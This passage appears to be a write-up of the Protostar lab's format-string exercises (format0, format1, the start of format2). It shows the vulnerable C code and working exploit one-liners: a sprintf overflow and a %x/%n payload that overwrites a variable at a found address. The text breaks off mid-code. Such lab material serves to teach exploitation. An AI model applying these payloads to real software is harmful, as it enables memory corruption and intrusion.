 `sprintf` doesn't validate the string length so we can easly cause BOF and overwrite the target with *0xdeadbeef*

```sh
/opt/protostar/bin$ ./format0 `python -c 'print "\xef\xbe\xad\xde"*17'`
```

17*4 bytes = 64 buffer + 4 of target

## format 1

```c
int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

get address of target = 0x08049638

```sh
/opt/protostar/bin$ objdump -t format1
```

then passed it as block of your input and try to hit it with %x after finding suitable pattern of format input that hit the stored address that we passed and then replace %x of this position only with %n to overwrite the target with the length of our input
> note:
> make your target address between known pattern to easly find and recognize its position in the output.
> ex: `"DDDD"+ "\x38\x96\x04\x08" + "DDDD" + 168*" %x"`,
> the space before %x to make the output addresses separated and recognizable

```sh
/opt/protostar/bin$ ./format1 "`python -c 'print "\x38\x96\x04\x08"+126*"  %x"+"  %n"+"BBBB"'`"
```

## Format 2

```c
int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
```